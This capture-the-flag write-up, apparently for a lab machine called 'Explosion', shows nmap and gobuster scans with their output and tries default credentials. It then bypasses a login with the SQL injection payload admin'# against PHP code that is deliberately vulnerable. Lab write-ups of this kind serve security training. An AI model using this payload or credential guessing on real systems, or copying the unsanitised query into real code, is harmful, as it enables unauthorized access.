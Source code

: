 # Explosion

- TL;DR: SQL Injection vulenrability in a web application hosted on a apache web server running on port 80.

## Reconnaissance 

- Run an nmap scan:
```
nmap -sC -sV 10.129.58.234     

Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-05 05:00 PDT
Nmap scan report for 10.129.58.234
Host is up (0.081s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.76 seconds
```

<br>

## Exploitation

- We find the following port(s) open:
    - `80/tcp` Apache httpd 2.4.38
- We can view the web application in the browser by visiting `10.129.58.234:80`
- We can use the following command to brute force and check for additional directories:
    ```
    gobuster dir --url http://10.129.58.234:80 --wordlist /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
    ===============================================================
    Gobuster v3.5
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.129.58.234:80
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.5
    [+] Timeout:                 10s
    ===============================================================
    2023/07/05 05:19:53 Starting gobuster in directory enumeration mode
    ===============================================================
    /images               (Status: 301) [Size: 315] [--> http://10.129.58.234/images/]
    /css                  (Status: 301) [Size: 312] [--> http://10.129.58.234/css/]
    /js                   (Status: 301) [Size: 311] [--> http://10.129.58.234/js/]
    /vendor               (Status: 301) [Size: 315] [--> http://10.129.58.234/vendor/]
    /fonts                (Status: 301) [Size: 314] [--> http://10.129.58.234/fonts/]
    Progress: 87654 / 87665 (99.99%)
    ===============================================================
    2023/07/05 05:32:49 Finished
    ===============================================================
    
    ```
- We do not find any intresting directories from the above command.
- Next we try common combinations to login:
    ```
    admin:admin
    guest:guest
    user:user
    root:root
    administrator:password
    ```
- None of the above combinations work. We could attempt brute-forcing the login page but that could take time and trigger some security alerts.
- The following code is an example for how authentication works using PHP & SQL:
```
<?php

mysql_connect("localhost", "db_username", "db_password"); 
# Connection to the SQL Database.

mysql_select_db("users"); 
# Database table where user information is stored.

$username=$_POST['username']; # User-specified username.
$password=$_POST['password']; #User-specified password.

$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
# Query for user/pass retrieval from the DB.

$result=mysql_query($sql);
# Performs query stored in $sql and stores it in $result.

$count=mysql_num_rows($result);
# Sets the $count variable to the number of rows stored in $result.

if ($count==1){
    # Checks if there's at least 1 result, and if yes:
    $_SESSION['username'] = $username; # Creates a session with the specified $username.
    $_SESSION['password'] = $password; # Creates a session with the specified $password.
    header("location:home.php"); # Redirect to homepage.
}

else { # If there's no singular result of a user/pass combination:
    header("location:login.php");
    # No redirection, as the login failed in the case the $count variable is not equal to 1, HTTP Response code 200 OK.
}
?>
```
- From the above code we know that a successfull session is only created for the specified username and password if the query sent to the the DB returns one or more rows.
- Since there is no input validation, we can enter a query in the username field. For example `admin'#`.
- This will return a record(row) if it exists and will create a successful login session for the specified `username`. 
- We can provide any password because of an SQL injection vulnerabliity in the `username` field. The `admin'#` query comments everything after the `#` in the following query: `SELECT * FROM users WHERE username='admin'#' AND password='$password'`.
- Once we hit the login button with `admin'#:abc1234` we get the flag.
